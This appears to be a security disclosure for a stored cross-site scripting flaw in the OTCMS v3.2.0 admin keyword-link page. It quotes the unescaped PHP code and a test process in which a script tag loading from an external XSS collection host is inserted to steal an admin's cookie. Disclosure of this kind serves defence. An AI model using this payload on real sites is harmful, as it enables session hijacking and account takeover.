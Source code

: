 # OTCMS_3.2
###1.Vulnerability type:Cross site request XSS
###2.Vulnerability program: OTCMS v3.2.0 
###3.Download address:http://110.85.5.26:89/uploads/userup/930/OTCMS_PHP_a5.rar
###4.The official website:http://otcms.com/
###5.Vulnerability description: Adding keywords and links at the anchor text management section under article management in the background management. Because the filtering is not strict, malicious intruders can maliciously insert XSS malicious statements so that cookies can be obtained, and fishing and horse-hanging attacks can be implemented.
###6.poc:
function manage(){
	global $DB,$MB,$skin,$mudi,$dataType,$dataTypeCN,$pageCount,$recordCount;

	$dataMode		= OT::GetStr('dataMode');
	$dataModeStr	= OT::GetStr('dataModeStr');

	$judApp4 = Area::JudPayApp(4);
	if ($judApp4){
		$tabWidthStr = '5%,15%,25%,25%,6%,6%,8%,10%';
		$tabTitleStr = '编号,关键字,链接地址,样式,替换次数,排序,状态,修改　删除';
		$busiStyleStr = 'display:;';
	}else{
		$tabWidthStr = '5%,25%,40%,6%,6%,8%,10%';
		$tabTitleStr = '编号,关键字,链接地址,替换次数,排序,状态,修改　删除';
		$busiStyleStr = 'display:none;';
	}
	$skin->TableTop2('share_list.gif','',$dataTypeCN .'管理');
	$skin->TableItemTitle($tabWidthStr,$tabTitleStr);
	
	$pageSize	= $MB->mMbRow['MB_itemNum'];		//每页条数
	$page		= OT::GetInt('page');
	$showRow=$DB->GetLimit("select * from ". OT_dbPref ."keyWord where KW_type='". $dataType ."' order by KW_rank ASC",$pageSize,$page);
	if (! $showRow){
		$skin->TableNoData();
	}else{
		$recordCount=$DB->GetRowCount();
		$pageCount=ceil($recordCount/$pageSize);
		if ($page < 1 || $page > $pageCount){$page=1;}

		echo('
		<tbody class="tabBody padd3td">
		');
		$number=1+($page-1)*$pageSize;
		$rowCount = count($showRow);
		for ($i=0; $i<$rowCount; $i++){
			if ($i % 2 == 1){ $bgcolor='class="tabColorTr"'; }else{ $bgcolor=''; }

			echo('
			<tr id="data'. $showRow[$i]['KW_ID'] .'" '. $bgcolor .'>
				<td align="center">'. $number .'</td>
				<td align="center" style="word-break:break-all;">'. $showRow[$i]['KW_theme'] .'</td>
				<td align="center" style="word-break:break-all;">'. $showRow[$i]['KW_URL'] .'</td>
				<td align="center" style="word-break:break-all;'. $busiStyleStr .'">'. $showRow[$i]['KW_themeStyle'] .'</td>
				<td align="center">'. $showRow[$i]['KW_useNum'] .'</td>
				<td align="center">'. $showRow[$i]['KW_rank'] .'</td>
				<td align="center">'. Adm::SwitchBtn('keyWord',$showRow[$i]['KW_ID'],$showRow[$i]['KW_isUse'],'isUse') .'</td>
				<td align="center">
					<img src="images/img_rev.gif" style="cursor:pointer;" onclick=\'DataDeal.location.href="keyWord_deal.php?mudi=send&dataType='. $dataType .'&dataTypeCN='. urlencode($dataTypeCN) .'&dataMode='. $dataMode .'&dataModeStr='. $dataModeStr .'&dataID='. $showRow[$i]['KW_ID'] .'&typeNum='. $number .'"\' alt="" />&nbsp;&nbsp;
					<img src="images/img_del.gif" style="cursor:pointer;" onclick=\'if(confirm("确定删除？")==true){DataDeal.location.href="keyWord_deal.php?mudi=del&dataType='. $dataType .'&dataTypeCN='. urlencode($dataTypeCN) .'&theme='. urlencode($showRow[$i]['KW_theme']) .'&dataID='. $showRow[$i]['KW_ID'] .'"}\' alt="" />
				</td>
			</tr>
			');
			$number ++;
		}
		echo('
		</tbody>
		');
	}
	unset($showRow);

	echo('
	<form method="post" id="listForm" name="listForm" action="keyWord_deal.php?mudi=add" onsubmit="return CheckForm()">
	<script language="javascript" type="text/javascript">document.write(\'<input type="hidden" name="backURL" value="\'+ document.location.href +\'">\')</script>
	<input type="hidden" id="dataType" name="dataType" value="'. $dataType .'" />
	<input type="hidden" id="dataType" name="dataTypeCN" value="'. $dataTypeCN .'" />
	<input type="hidden" id="dataID" name="dataID" value="0" />
	<tr>
		<td id="numID" align="center"><br /></td>
		<td align="center"><input type="text" id="theme" name="theme" size="25" style="width:120px;" /></td>
		<td align="center"><input type="text" id="webURL" name="webURL" size="25" style="width:220px;" value="http://" /></td>
		<td align="left" style="padding:3px;'. $busiStyleStr .'">
			'. AppBase::KeyWordAddi() .'
		</td>
		<td align="center"><input type="text" id="useNum" name="useNum" size="3" value="0" onkeyUp="this.value=FiltInt(this.value)" /></td>
		<td align="center"><input type="text" id="rank" name="rank" size="3" value="'. (intval($DB->GetOne("select max(KW_rank) from ". OT_dbPref ."keyWord where KW_type='". $dataType ."'"))+10) .'" onkeyUp="this.value=FiltInt(this.value)" /></td>
		<td align="center"><select id="isUse" name="isUse"><option value="1">启用</option><option value="0">禁用</option></select></td>
		<td align="center"><input id="subButton" type="image" src="images/button_add.gif" /></td>
	</tr>
	</form>
	<tr class="padd8">
		<td align="left" colspan="7" class="font2_2">
			提醒：1、关键字，尽量不要用纯英文做，容易造成内容标签或分页路径被破坏问题；&nbsp;&nbsp;&nbsp;&nbsp;2、替换次数：0表示不限；
		</td>
	</tr>
	');
###7.Test process:
We came to the background of the anchor text management add
![XSS insertion](1.png)
Insert our malicious statement,Confirm add:
<script src=http://xsspt.com/jr9Iqk?1521875397></script>
![Insert malicious statements](2.png)
Obtain Payload:
![Obtain Payload](3.png)
successful acquisition payload:
![successful acquisition](4.png)
![successful](5.png)
successful acquisition cookie:
![cookie](6.png)

